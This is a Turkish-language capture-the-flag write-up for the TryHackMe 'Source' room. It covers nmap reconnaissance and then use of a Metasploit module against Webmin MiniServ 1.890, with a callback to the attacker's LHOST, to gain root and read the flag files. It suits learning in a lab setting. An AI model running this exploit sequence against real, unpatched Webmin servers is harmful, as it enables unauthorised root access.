 # Source by Tryhackme

<a href="https://tryhackme.com/room/source" rel="nofollow">Odaya Buradan Ulaşabilirsiniz.</a> 

İlk olarak VPN açıp makinayı çalıştırıyourm. 

Bana verdiği IP adresi şu şekilde = 10.10.90.55 (sizde bu farklı olacaktır.)

Şimdi NMAP taraması yapıyorum 

``` namp -sV 10.10.90.55 ```


tarama sonucu şu şekilde;

```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-12 08:21 EDT
Nmap scan report for 10.10.90.55
Host is up (0.090s latency).
Not shown: 998 closed ports
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
10000/tcp open  http    MiniServ 1.890 (Webmin httpd)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 40.58 seconds
```

Burada görüyorum ki 10000 portunda Webmin çalışıyor.

10.10.90.55:10000 şekilince arama yapıyorum tarayıcıda.Burada https şekilnde arama yapmam gerektiğini görüyorum.

https://10.10.90.55:10000 şekilinde arama yapıyorum ve karşıma çıkan uyarıya Advanced kısmından devam diyerek ilerliyorum.

Karşım giriş sayfası çıkıyor.

![Screenshot_1](https://user-images.githubusercontent.com/34964480/90019273-d8f03180-dcb6-11ea-9405-660efed5b2f6.png)

Terminal ekranımda ``` msfconsole ``` komutu ile Metasploit başlatıyorum. Ardından ``` serach miniserv 1.890 ``` komutu ile exploit buluyorum.

![Screenshot_2](https://user-images.githubusercontent.com/34964480/90020558-af380a00-dcb8-11ea-9c6a-4c21a7e3548c.png)

Bulduğum bu exploiti kullanmak için exploit sırasını şeçmem gerekli bunun için ``` use 0 ``` komutunu kullandım.

Şimdi seçeneklere bir göz atalım ```options``` komutu seçenekleri gösterecektir.

![Screenshot_3](https://user-images.githubusercontent.com/34964480/90020879-2077bd00-dcb9-11ea-8745-ed7c0d3258c2.png)

Sırasıyla ;

            1 - set RHOSTS <buraya hedef ip adresi >  bizimki bu şekilde set RHOSTS 10.10.90.55 
            
            2 - set SSL true
            
            3 - set LHOST <buraya kali tun0 ip adresi > <bunu sudo ifconfig komutu ile görebiliriz>
            
            4 - run 
            
![Screenshot_4](https://user-images.githubusercontent.com/34964480/90021772-608b6f80-dcba-11ea-98da-05662f2be10e.png)

Bu aşamadan sonra ```pwd```komutu ile hangi dosya yolunda bulunduğumuzu görebiliriz.   

Dosya yolumuz /usr/share/webmin şeklinde. Bize lazım olan ```uer.txt``` ve ```root.txt```.

İlk olarak ```ls/root``` komutu ile root yoluna bakıyorum ve root.txt burada. ```cat /root/root.txt``` komutu ile root.txt bayrağını elde ediyoruz.

Sonrasında ise ```ls /home``` komutu ile home klasörüne bakıyorum içeride dark klasörü yer alıyor ``` ls /home/dark ``` komutuyla dark klasörüne bakıyorum ve user.txt burada.

Son olarak ```cat /home/dark/user.txt``` komutu ile user.txt bayrağını elde ediyoruz.

###Böylece odayı tamamlamış olduk. Umarım faydalı olmuştur. Bir sonraki yazıda görüşmek üzere.






